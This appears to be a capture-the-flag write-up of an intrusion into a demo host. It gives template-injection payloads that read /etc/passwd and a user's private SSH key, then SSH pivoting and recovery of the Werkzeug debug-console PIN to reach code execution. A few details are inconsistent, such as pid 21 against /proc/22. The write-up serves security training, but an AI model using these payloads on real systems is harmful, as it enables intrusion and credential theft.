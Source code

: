 ## Prologue: The Library

First of all a light nmap scan for open ports:

```shell
nmap -sV ctfdemo.interlogica.ninja
```
We can see two open ports: 443 for https and 2222 for ssh.

Let's visit the website.
By fuzzing the filter we find out that we get an error if we input something like `#{` or `#[`, which reveals to us that
the Pug templating engine is in use and that it's vulnerable to SSTI. We can then leverage the vulnerability to perform
RCE.
Let's first read some local files:

    #{process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}

We see that the user `dave` exists. Let's see if he has a private ssh key that we can snatch:

    #{process.mainModule.require('child_process').spawnSync('cat', ['/home/dave/.ssh/id_rsa']).stdout}

Alright. Now we can connect via ssh using dave's private key:

```shell
chmod 600 <dave_id_rsa>
ssh dave@ctfdemo.interlogica.ninja -i <dave_id_rsa> -p 2222
```

While pillaging, we find out that a python application is running locally on port 5000 with the following command:

```shell
netstat -tulpn
```

Since the application only accepts connections from localhost, from our attack machine we can use ssh to do a local port
forward:

```shell
ssh -L 5001:127.0.0.1:5000 dave@ctfdemo.interlogica.ninja -i <dave_id_rsa> -p <ssh_port>
```

Now we can access the remote python service on local port 5001.
By dirbusting with the provided wordlist, we find out that the `/console` page is available, which means that the
application is running with the debug mode activated.
We can retrieve the pin using the following guide:

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug

We have to fill the following stuff:

```python
probably_public_bits = [
    '<username>',
    'flask.app',
    'Flask',
    '<app.py_location>'
]

private_bits = [
    '<private_bit_1>',
    '<private_bit_2>'
]
```

Let's find the location of the flask `app.py`:

```shell
find / -type f  -name app.py 2>/dev/null
/usr/local/lib/python3.10/site-packages/flask/sansio/app.py
/usr/local/lib/python3.10/site-packages/flask/app.py
```
So `/usr/local/lib/python3.10/site-packages/flask/app.py` it is.

Then:

```shell
python -c "import uuid;print(str(uuid.getnode()))"
2485378023426
```

gives us the value of `private_bit_1`. NOTE: this value and/or the value of `private_bit_2` will change at every reboot.
Let's calculate the value of `private_bit_2`:

```shell
cat /proc/sys/kernel/random/boot_id
1d0ab7ff-1550-45ca-a92d-3b4ed58eaa74
ps aux | grep python
8 admin     0:00 python3 /home/admin/app.py
21 admin     0:01 /usr/local/bin/python3 /home/admin/app.py
79 dave      0:00 grep python
```

so the username is `admin`. The pid is `21`.

```shell
head -n 1 /proc/22/cgroup | awk -F/ '{print $NF}'
9c342664c0f8ca623ec1cd7dbf93f57c395ae71b0b8299db11ef6b751346db10
```

The value of `private_bit_2` then is the concatenation of `1d0ab7ff-1550-45ca-a92d-3b4ed58eaa74`
and `9c342664c0f8ca623ec1cd7dbf93f57c395ae71b0b8299db11ef6b751346db10`.

Let's put the values we found in the python script and let's run it.

```python
probably_public_bits = [
    'admin',
    'flask.app',
    'Flask',
    '/usr/local/lib/python3.10/site-packages/flask/app.py'
]

private_bits = [
    '2485378023426',
    '1d0ab7ff-1550-45ca-a92d-3b4ed58eaa749c342664c0f8ca623ec1cd7dbf93f57c395ae71b0b8299db11ef6b751346db10'
]
```

We got the PID! Now we can open the file we want to read:

```python
with open('/home/admin/requests/<uuid>', 'r') as file:
    print(file.read())
```
Let's visit the url in the file now!

Ouch.